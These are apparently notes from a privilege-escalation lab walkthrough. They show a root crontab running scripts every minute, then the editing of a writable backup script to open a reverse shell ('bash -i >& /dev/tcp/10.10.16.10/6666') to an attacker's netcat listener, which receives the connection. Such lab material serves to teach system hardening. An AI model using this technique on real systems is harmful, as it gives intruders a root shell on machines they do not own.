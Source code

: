 \# | | .---------- day of month (1 - 31)

\# | | | .------- month (1 - 12) OR jan,feb,mar,apr ...

\# | | | | .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat

\# | | | | |

\# \* \* \* \* \* user-name command to be executed

17 \* \* \* \* root cd / && run-parts --report /etc/cron.hourly

25 6 \* \* \* root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )

47 6 \* \* 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )

52 6 1 \* \* root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

\#

\* \* \* \* \* root /antivirus.sh

\* \* \* \* \* root antivirus.sh

\* \* \* \* \* root /home/karen/backup.sh

\* \* \* \* \* root /tmp/test.py

* All scripts configured to run every minute.
* Contents of /home/karen/backup.sh.

cat /home/karen/backup.sh

\#!/bin/bash

cd /home/admin/1/2/3/Results

zip -r /home/admin/download.zip ./\*

* Modify accessible script to create a reverse shell.
* nc will most likely not support -e option due to security.
* Always prefer to start reverse shells.
  * Do not want to compromise system integrity.
* Create Reverse shell script.

1. nano /home/karen/backup/sh
2. Delete bottom two lines.
3. Add bash -i >& /dev/tcp/10.10.16.10/6666 0>&1
   * IP address is that of the attacker.
4. CTRL+X to save and exit.

* Ensure that the script is executable.

chmod +x /home/karen/backup.sh

* Run listener on attacking machine to receive incoming connection.

nc -nlvp 6666

Listening on \[0.0.0.0] (family 0, port 6666)

Connection from 10.10.43.228 40628 received!
